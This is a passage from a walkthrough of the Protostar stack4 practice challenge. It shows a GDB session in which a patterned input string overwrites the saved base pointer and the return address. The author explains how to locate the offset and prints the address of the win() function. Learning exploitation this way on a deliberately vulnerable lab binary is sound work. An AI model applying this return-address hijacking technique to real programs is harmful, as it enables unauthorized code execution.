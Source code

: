 ```bash
(gdb) r
Starting program: /opt/protostar/bin/stack4 
QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKKLLLLZZZZXXXXCCCCVVVVBBBBNNNNMMMM

Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x4c4c4c54
) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) info registers
eax            0xbffff760       -1073744032
ecx            0xbffff760       -1073744032
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7ac       0xbffff7ac
ebp            0x4c4c4c4c       0x4c4c4c4c
esi            0x0      0
edi            0x0      0
eip            0x804841e        0x804841e <main+22>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

Now, **we see that EBP was overwritten** to `0x4c4c4c4c`, which is `LLLL` in ASCII. That means to **overwrite the return address**, we need to **first pass** `QQQQWWWWEEEERRRRTTTTYYYY...` until `LLLL`. Then, we can **overwrite the return address with anything we want** by just **appending it to the end** of the string.

```bash
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x5a5a5a5a in ?? ()
(gdb) 
```

Once we continue (`c`), we see that the **return address got overwritten** to `0x5a5a5a5a` (`ZZZZ`) because the **program tried to go to that memory address** which is of course **illegal**. That **checks out** with the EBP overwrite because `ZZZZ` was **right after** `LLLL` in the input string, which **matches up perfectly with our stack visual** from earlier. 

So now we need to get the **memory address** of the `win()` function. Do to that, we use the `p` command in GDB to **print the value of whatever comes after it**.

```bash
(gdb) p win
$1 = {void (void)} 0x80483f4 <win>
(gdb) 
```
